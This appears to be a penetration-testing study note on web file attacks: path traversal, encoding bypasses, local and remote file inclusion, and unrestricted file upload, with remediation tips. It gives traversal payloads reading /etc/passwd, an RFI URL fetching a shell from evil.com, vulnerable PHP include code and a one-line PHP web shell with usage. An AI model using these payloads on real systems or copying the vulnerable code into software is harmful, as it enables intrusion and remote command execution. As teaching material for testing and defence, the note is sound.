 
# file and resource attacks

## Path traversal

Some web applications need to access resources on the file system to implement the web application such as images and static text. They sometimes use parameters to define the resources.

When these parameters are user-controlled, not properly sanitized and are used to build the resource path on the file system, security issues may arise.

```
http://somesite.com/getFile?path=awesome.pdf
```

Testing for path traversal using `../`

relative path...

```
http://somesite.com/getFile?path=../../../etc/passwd
```
absolute path...
```
http://somesite.com/getFile?path=/etc/passwd
```
on windows try
```
http://somesite.com/getFile?path=../../../windwos/win.ini

http://somesite.com/getFile?path=../../../boot.ini
```

* \*NIX Systems use `/`
* Windows uses drive letter and backslash: `C:\`

A *NULL BYTE* can be used to terminate a sequence...
```
%00

../../etc/password%00
```
Note that this does not work with PHP version >= 5.3.4

## Encoding

Web applications may perform filtering on these operations so try different encodings.

```
Character    URL encoding   16-bit unicode
.             %2e            %u002e
/             %2f            %u2215
\             %5c            %u2216
```

The payloads will now look like this...

```
../
%2e%2e%2f     
%2e%2e/
..%2f
..%255c
```

## Remediation

* filter the `/` or `\`

## File Inclusion Vulnerabilities

Vintage LFI (Local File Inclusion), PerlCGI from the early 90s...

```
visit.pl?url=../../../../etc/passwd
```

## Typical vulnerable code 1

```
http://target.site/index.php?location=IT
```

Code

```
<?php
  include("loc/" . $_GET('location'));
?>
```

Exploit

```
index.php?location=../../../etc/passwd
```

## with a null byte

Code

```
<?php
include($_GET['location'] . "/template.tlp");
?>
```

Exploit

```
index.php?location=../../../etc/passwd%00
```

The null by will terminate the string early effectively omitting the `/template.tlp` from the string.

## Remote File Inclusion (RFI)

Works in exactly the same way but the file is pulled remotely...

```
vuln.php?page=http://evil.com/shell.txt
vuln.php?page=http://duckduckgo.com
```

The shell.txt might contain anything or...

```
<?php
phpinfo();
?>
```

RFI is possible because the `allow_url_include` directive is set to On within *php.ini*, its good practice to set it to Off.

## Unrestricted File Upload

* https://www.owasp.org/index.php/Unrestricted_File_Upload

This vulnerability is very dangerous and can affect web servers that do not enforce policies on the nature of the files uploaded...

* the maximum file size (DoS)
* the nature of the file (is it an image or PDF)

## Vulnerable Application

The vulnerable application allows file upload via this endpoint (POST)...

```
http://fileupload.com/uploadImage.php
```

The uploaded image is then available at...

```
http://fileupload.com/images/<file_uploaded>
```

This endpoint does not check what the file is so its vulnerable to the following payload...

```
<?php
    exec($_GET['command']);
?>
```

Once uploaded this file can be used like so...

```
http://fileupload.com/images/myshell.php?command=pwd
```

For this to work the following conditions will apply:

* The file type is not checked against a whitelist of allowed formats
* the file name and path of the uploaded file known or guessable by an attacker
* The folder in which the file is placed allows the execution of the server-side scripts

## Testing

* try uploading *info.php* containing *phpinfo()*
* check to see if the file extension was modified
* check the file to see if the results of php are displayed (this means its vulnerable).


## Remediations

* check data metadata, name, extension, size.
* whitelist of allowed extensions

File uploads with restricted extensions are still prone to be exploited when a local file inclusion exploit is found elsewhere.

* limit the file size allowed
* check the file contents
* use a virus scanner

## Developing file uploads

Web developers should ask these questions...

* who will use the uploaded file?
* How will the uploaded file be used?
* What privileges will this file need on the server?

## References

* http://svn.php.net/viewvc?view=revision&revision=305507
* https://www.owasp.org/index.php/Unrestricted_File_Upload
